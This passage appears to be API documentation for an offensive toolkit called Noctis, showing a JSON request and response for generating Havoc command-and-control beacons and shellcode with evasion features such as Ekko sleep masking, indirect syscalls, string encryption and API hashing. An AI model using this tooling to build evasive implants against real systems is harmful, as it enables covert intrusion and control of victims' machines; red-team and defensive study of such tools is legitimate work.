 
## API Reference

### Endpoint: POST /api/c2/havoc/generate

**Request:**
```json
{
  "listener_host": "192.168.1.100",
  "listener_port": 443,
  "protocol": "https",
  "architecture": "x64",
  "sleep_technique": "Ekko",
  "techniques": ["NOCTIS-T124", "NOCTIS-T118"],
  "obfuscate": true,
  "indirect_syscalls": true,
  "stack_duplication": true
}
```

**Response:**
```json
{
  "success": true,
  "beacon_path": "compiled/havoc_demon.exe",
  "shellcode_path": "compiled/havoc_shellcode.bin",
  "beacon_size": 156789,
  "techniques_applied": ["NOCTIS-T124"],
  "obfuscation_summary": {
    "strings_encrypted": 15,
    "apis_hashed": 8,
    "control_flow_flattened": true
  },
  "opsec_score": 9.2,
  "compilation_time": 1.45,
  "metadata": {
    "sleep_technique": "Ekko",
    "indirect_syscalls": true,
    "protocol": "https"
  }
}
```

---

## Integration with Noctis Obfuscation

Havoc demons can be enhanced with Noctis techniques:

### String Encryption
```python
sleep_technique="Ekko",
obfuscate=True  # Enables string encryption
```
